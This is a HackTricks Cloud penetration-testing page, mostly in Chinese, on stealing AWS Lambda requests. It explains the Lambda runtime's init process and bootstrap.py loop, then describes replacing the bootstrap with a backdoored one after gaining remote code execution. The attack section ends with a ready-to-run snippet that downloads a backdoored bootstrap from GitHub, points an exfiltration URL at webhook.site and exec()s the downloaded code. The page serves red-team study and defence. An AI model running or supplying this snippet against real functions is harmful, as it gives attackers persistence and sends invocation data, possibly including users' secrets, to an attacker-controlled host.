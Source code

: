 # AWS - Steal Lambda Requests

{% hint style="success" %}
学习和实践 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和实践 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PR 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## Lambda 流程

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** 是一个容器外的进程，**发送** **调用** 到 **init** 进程。
2. init 进程监听端口 **9001**，暴露一些有趣的端点：
* **`/2018-06-01/runtime/invocation/next`** – 获取下一个调用事件
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 返回调用的处理响应
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 返回执行错误
3. **bootstrap.py** 有一个循环从 init 进程获取调用并调用用户代码处理它们 (**`/next`**).
4. 最后，**bootstrap.py** 将 **响应** 发送给 init

注意，bootstrap 作为模块加载用户代码，因此用户代码执行的任何代码实际上都发生在这个进程中。

## 窃取 Lambda 请求

此攻击的目标是使用户代码在处理易受攻击的请求时执行恶意的 **`bootstrap.py`** 进程。这样，**恶意的 bootstrap** 进程将开始 **与 init 进程通信** 以处理请求，而 **合法** 的 bootstrap 被 **困住** 运行恶意的，因此它不会向 init 进程请求请求。

由于用户代码由合法的 **`bootstrap.py`** 进程执行，这是一项简单的任务。因此攻击者可以：

* **向 init 进程发送当前调用的假结果**，使 init 认为 bootstrap 进程正在等待更多调用。
* 必须向 **`/${invoke-id}/response`** 发送请求
* 可以使用 [**inspect**](https://docs.python.org/3/library/inspect.html) python 模块从合法的 **`bootstrap.py`** 进程的堆栈中获取 invoke-id（如[此处所提议](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)）或再次请求 **`/2018-06-01/runtime/invocation/next`**（如[此处所提议](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)）。
* 执行恶意的 **`bootstrap.py`** 以处理下一个调用
* 为了隐蔽性，可以将 lambda 调用参数发送到攻击者控制的 C2，然后像往常一样处理请求。
* 对于此攻击，只需从系统或 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) 获取原始的 **`bootstrap.py`** 代码，添加恶意代码并从当前的 lambda 调用中运行它。

### 攻击步骤

1. 找到一个 **RCE** 漏洞。
2. 生成一个 **恶意** **bootstrap**（例如 [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）
3. **执行** 恶意的 bootstrap。

你可以通过运行以下操作轻松执行这些操作：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享 hacking 技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

